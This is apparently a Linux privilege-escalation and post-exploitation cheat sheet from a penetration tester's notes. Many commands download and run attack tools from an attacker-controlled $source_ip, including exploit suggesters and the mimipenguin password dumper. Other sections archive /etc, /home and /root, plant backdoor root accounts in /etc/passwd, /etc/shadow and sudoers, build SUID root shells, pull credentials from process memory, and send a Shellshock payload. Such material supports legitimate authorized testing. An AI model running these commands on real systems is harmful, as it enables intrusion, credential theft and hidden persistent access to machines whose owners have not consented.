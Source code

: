 
# Linux

## Enumeration Scripts
Determine if kernel exploit is intended:
```
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null
```
```
ps -ef | grep -E "tmux|knock|vnc|tty"
```
```
wget http://$source_ip/tools_linux/lse.sh; bash lse.sh -l 2 | tee lse.sh.out
```
```
wget http://$source_ip/tools_linux/LinEnum.sh; bash LinEnum.sh -t | tee LinEnum.sh.out
```
```
wget http://$source_ip/tools_linux/linpeas.sh; bash linpeas.sh -s | tee linpeas.sh.out
```
```
wget http://$source_ip/tools_linux/linuxprivchecker.py; python linuxprivchecker.py | tee linuxprivchecker.py.out
```
```
wget http://$source_ip/tools_linux/linux-local-enum.sh; bash linux-local-enum.sh standard | tee linux-local-enum.sh.out
```
```
wget http://$source_ip/tools_linux/unix-privesc-check.sh; bash unix-privesc-check.sh | tee unix-privesc-check.sh.out
```
```
wget http://$source_ip/tools_linux/linux_security_test.sh; bash linux_security_test.sh | tee linux_security_test.sh.out
```
```
wget http://$source_ip/tools_linux/checksec; bash checksec --kernel | tee checksec.kernel.out
```
```
wget http://$source_ip/tools_linux/checksec; bash checksec --fortify-proc=1 | tee checksec.proc.out
```

### General Enumeration 

Writable files:
```
find / -writable -type d 2>/dev/null
```
```
find / -type d -perm -o+w 2>/dev/null
```

SUID:
```
find / -perm -u=s -type f 2>/dev/null
```

SGID:
```
find / -perm -g=s -type f 2>/dev/null
```

Mounted and unmounted volumes:
```
cat /etc/fstab
mount
lsblk
```

Device drivers and kernel modules:
```
lsmod
```
```
/sbin/modinfo <module_name>
```

## Process monitoring
```
wget http://$source_ip/tools_linux/pspy32; chmod +x pspy32; ./pspy32
```
```
wget http://$source_ip/tools_linux/pspy64; chmod +x pspy64; ./pspy64
```

## Exploit Suggesters
```
wget http://$source_ip/tools_linux/linux-exploit-suggester-2.pl; perl linux-exploit-suggester-2.pl | tee linux-exploit-suggester-2.pl.out
```
```
wget http://$source_ip/tools_linux/linux-exploit-suggester.sh; bash linux-exploit-suggester.sh | tee linux-exploit-suggester.sh.out
```
```
wget http://$source_ip/tools_linux/linuxprivchecker.py; python linuxprivchecker.py | tee linuxprivchecker.py.out
```
```
wget http://$source_ip/tools_linux/linux_kernel_exploiter.pl; perl linux_kernel_exploiter.pl | tee linux_kernel_exploiter.pl.out
```
```
wget http://$source_ip/tools_linux/Linux_Exploit_Suggester.pl; perl Linux_Exploit_Suggester.pl | tee Linux_Exploit_Suggester.pl.out
```


## Data Extraction
```
ifconfig -a; netstat -antp; arp -e; route -v; route -vn
```
```
tar -zcf linux_files.tar.gz /etc/* /home/* /root/* /var/www/* /var/log/*
```
Recursive search:
```
grep -rnwl '/path/to/somewhere/' -e "pattern"
```

## Password Dumping
```
wget http://$source_ip/tools_linux/mimipenguin_2.0/mimipenguin.py; python mimipenguin.py | tee mimipenguin.py.out
```
```
wget http://$source_ip/tools_linux/mimipenguin_2.0/mimipenguin.sh; bash mimipenguin.sh | tee mimipenguin.sh.out
```
```
wget http://$source_ip/tools_linux/memory-dump.sh
```

## Persistance
```
sudo echo "amxuser ALL=(ALL) ALL" >> /etc/sudoers
```
```
/usr/sbin/useradd -p 'openssl passwd -1 amxpass' amxuser 
```
```
/usr/sbin/useradd -p 'openssl passwd -1 -salt AbCD4536 amxpass' amxuser 
```
```
echo amxpass | passwd amxuser --stdin
```
```
echo 'amxuser::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```
```
echo 'amxuser:x:0:0:root:/root:/bin/bash' >>/etc/passwd
echo 'amxuser:$1$ozUCi1Me$rBG3vK5.jZUScy39PSVtM1:14798:0:99999:7:::' >>/etc/shadow
```

## Exploit 

Making SUIG SGID copy of bash:
```bash
/bin/cp /bin/bash /tmp/tom; /bin/chown tom:admin /tmp/tom; chmod g+s /tmp/tom; chmod u+s /tmp/tom
/tmp/tom -p
```

If SUID binary execute another command, replace it with a function:
```
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
export -f /usr/sbin/service
```

Dump memory:
```
gdb -p <FTP_PROCESS_PID>
(gdb) info proc mappings
(gdb) q
(gdb) dump memory /tmp/mem_ftp <START_HEAD> <END_HEAD>
(gdb) q
strings /tmp/mem_ftp #User and password
```

```
echo "int main(void){\nsetgid(0);\nsetuid(0);\nsystem(\"/bin/sh\");\n}" >privsc.c; gcc privsc.c -o privsc
```

```
echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\n\nint main(void){\n\tsetuid(0);\n\tsetgid(0);\n\tsystem("/bin/bash");\n}' > setuid.c
sudo chown root:root /tmp/setuid
sudo chmod 4755 /tmp/setuid
```

Shellshock
```
curl -H 'User-Agent: () { :; }; echo "CVE-2014-6271 vulnerable" bash -c id' http://$target/cgi-bin/admin.cgi
```
## Network

Grep IPs
```
grep -oE "[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}"
```

Using -X to output raw traffic
```
tcpdump -nX -r password_cracking_filtered.pcap | grep -A10 GET
```

Extract IP addresses from pcap
```
tcpdump -n -r dump.pcap | awk -F" " '{print $3}' | sort -u | head`
```

Filter for http requests
```
tcpdump -A -s 0 'tcp port 10443 and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf>>2)) != 0)' -i eth0
```

Filter destination host
```
tcpdump -n dst host $target -r password_cracking_filtered.pcap
```

Filter for source host
```
tcpdump -n src host $target -r password_cracking_filter
```

Filter port
```
tcpdump -n port 81 -r password_cracking_filtered.pcap
```

Extract only ACK and PUSH packets
```
tcpdump -A -n 'tcp[13] = 24' -r password_cracking_filtered.pcap
```

Create traffic counter for specific net
```
iptables -Z
iptables -N subnet_scan
iptables -A INPUT -d 10.11.1.0/24 -j subnet_scan
iptables -vL INPUT
```

```
iptables -Z
iptables -vn -L
```

Packet and byte counter using iptables
```
#!/bin/bash

# Reset counters and iptables rules
iptables -Z && iptables -F

# Measure incoming traffic from lab machine
iptables -I INPUT 1 -s 192.168.1.23 -j ACCEPT

# Measure outgoing traffic to lab machine
iptables -I OUTPUT 1 -d 192.168.1.23 -j ACCEPT
```
```
watch -n 1 iptables -nvL
```

## Grep 

```
grep -rnw /var/www/html -e "^.*example.*" --color
```
